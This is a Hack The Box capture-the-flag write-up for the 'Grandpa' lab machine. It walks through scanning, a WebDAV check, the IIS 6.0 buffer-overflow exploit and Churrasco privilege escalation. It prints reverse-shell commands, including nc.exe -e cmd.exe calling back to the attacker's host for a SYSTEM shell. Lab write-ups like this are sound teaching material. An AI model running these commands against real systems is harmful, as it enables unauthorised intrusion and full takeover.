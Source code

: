 # Grandpa [HTB](https://app.hackthebox.com/machines/13)
![grandpa-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/grasndpa-01.png)

## Recon

After adding the target to `/etc/hosts`, I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 grandpa.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/ports-02.png)

A single HTTP port. Let's perfrom service and version detection:

```bash
nmap -p 80 -sCV grandpa.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/nmap-res-03.png)

We can see that `nmap` has identified that [WebDAV](https://en.wikipedia.org/wiki/WebDAV) is enabled on this server. In short, `WebDAV` are extensions to the HTTP protocol that allows authorized users to create, change and move documents on the server. Thus, allowing the server to be viewed as a modifiable, collaborative medium instead of a read-only medium. 

In terms of a pentest, we want to try and leverage the `WebDAV` to uplaod and execute files on the server. Usually, to connect to the `WebDAV`server we need valid credentials, so if we dont have any we might need to [brute force](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force#http-basic-auth). Other then that, we need to determine which methods are supported by the server, and which file extensions can be uploaded, etc. 

We can run tools like `davtest` and `curl` to enumerate the `WebDAV` server further. `HackTricks` has a nice [overview](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav) we can follow.

Based on the `nmap` scan we can also see that the web server is an IIS 6.0. This is relevant, because there is a buffer-overflow [exploit](https://www.exploit-db.com/exploits/41738) for IIS 6.0 servers with `WebDAV`, however I want to try and go the manual route first.

### IIS Port 80

Let's start by opening the site at `http://grandpa.htb`:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/site-04.png)

Not much to see here. Let's run a directory and file scan using:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://grandpa.htb/FUZZ -e .aspx,.cgi,.txt,.xml,.conf,.html
```

Which brings the following result:

![images-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/images-05.png)

![private-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/private-06.png)

Trying to open the `images` directory eventually ends up with a `403` forbidden code after a couple of redirects. The `_private` directory looks more interesting though, typically `WebDAV` directories are prefixed with an underscore to try and hide them. 

Let's try to upload a file, We can do this with:

```bash
curl -i -s -k -X PUT http://grandpa.htb/_private -d @test.txt
```

This didnt work I got a `403` error. I tried different file extensions like `html`, and `png`. I tried to upload to different directories like the root of the server and `images` nothing worked. 

I decided to run `davtest` to see if it can cover something I missed:

```bash
davtest -url http://grandpa.htb/_private
```

![davtest-07}(https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/davtest-07.png)


Trying different directories does at least connect, but we cant upload or do anything on them 
![davtest-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/davtest-08.png)

I think it's safe to conclude that we cant manually exploit the `WebDAV` itself. Let's go for the buffer-overfow expliot.

### Buffer-Overflow


If we go to the [ExploitDB](https://www.exploit-db.com/exploits/41738) version, we can see that the shellcode launches `cala.exe` instead of a remote shell:

![calc-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/calc-09.png)

We dont want that. We could try to generate our own shellcode and simply replace the one in the script. 
This however is not so simple, and for me it didnt work. 

So I searched online and found [this exploit](https://github.com/danigargu/explodingcan/tree/master). It  has a clean code, and the most stars. This one also specified that the shellcode needs to be alphanumeric encoded, which is interesting. 

At first I tried to get a standard shell without a meterpreter but this didnt work. So instead I followed the instructioins on the github page and generated a meterpreter shellcode. I then setup `multi/handler` and got a shell in meterpreter using `msfconsole`.

This worls, but I want to try and avoid `metasploit` as much as possible, so I searched online for other exploits and I found [this one](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269). 

Based on the source code, we can see the expected arguments when invoking the script:

![source-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/source-10.png)

We need to specify the remote IP and port of the target, as well as our listener's. But I dont see the exploit creating a thread to catch the reverse shell so we need to do that ourselfes. 

I setup the listener with:

```bash
rlwrap nc -lnvp 443
```

And execute the exploit with:

```bash
python2 exploit.py 10.129.95.233 80 10.10.14.46 443
```

The script hangs for a few seconds, then I get a shell on my `nc`:

![shell-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/shell-11.png)

## Privilege Escalation

Immediately after landing on the machine I start hunting for quick wins. I started by looking for stored credentials with `cmdkey /list` but there are none. 

I then move on to look for user privileges with `whoami /priv`:

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/privs-12.png)

Here we can see our user has the `Impersonate` privileges enabled, which means we can try to pull of a [potato attack](https://jlajara.gitlab.io/Potatoes_Windows_Privesc). My go to for Windows servers < 2019 is [JuicyPotato](https://github.com/ohpe/juicy-potato), but this is an old Windows server:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
``` 

![sysinfo-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/sysinfo-15.png)


So instead let's try [Churrasco](https://github.com/Re4son/Churrasco/). To pull this off we need to transfer the `Churrasco` binary over to the target along with `nc.exe`. This, I typically achive with a python server on my attack machine, and `certutil` to downlaod the files over to the target. 

However on this machine, there is an issue:

![cert-err-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/cert-err-13.png)

I know my syntax is correct, as it works on virtually any other Windows machine, but here it doens't. Searching this error online, I came to find that we have an issue with the Certificate Revocation List (CRL) being expired. Thus causing applications that need to check the revocation status of certificates issued by this CA to fail.

I tried to find a way to craete a new CRL using `certutil -CRL`, didnt work. I tried to create a new certificate database with `certutil -N -d .`, didnt work. After a few dozen minutes googling I decided to give up on the idea and try powershell instead.

This is where I encountered another issue:

![no-ps-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/no-ps-14.png)

I tried searching for `C:\\Windows\System32\WindowsPowerShell`, there is none. Powershell was intoruced with Windows server 2008, but it was addedd to Windoes server 2003, just not this one I guess. 

Instead let's setup an SMB server on my attack machine using `impacket`:

```bash
impacket-smbserver -smb2support grandpa .
```
 
Then I connect to the share and copy the files over from the target using:

```cmd
net use \\10.10.14.46\grandpa
copy \\10.10.14.46\grandpa\churrasco.exe
copy \\10.10.14.46\grandpa\nc.exe
```

Now we can see both files are on the target:

![files-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/files-15.png)

Now we can test `churrasco` by running `churrasco.exe "whoami"`:

![whoami-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/whoami-16.png)

We can see that is works, and we have command execution as the `SYSTEM`. 

So now we can setup a listener on our Kali machine with:

```bash
rlwrap nc -lnvp 8080
```

And use `nc.exe` to connect back to our machine:

```cmd
churrasco.exe "C:\\windows\Temp\nc.exe -e cmd.exe 10.10.14.46 8080"
```

Which gets us a shell as the `SYSTEM`:

![root-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/root-17.png)




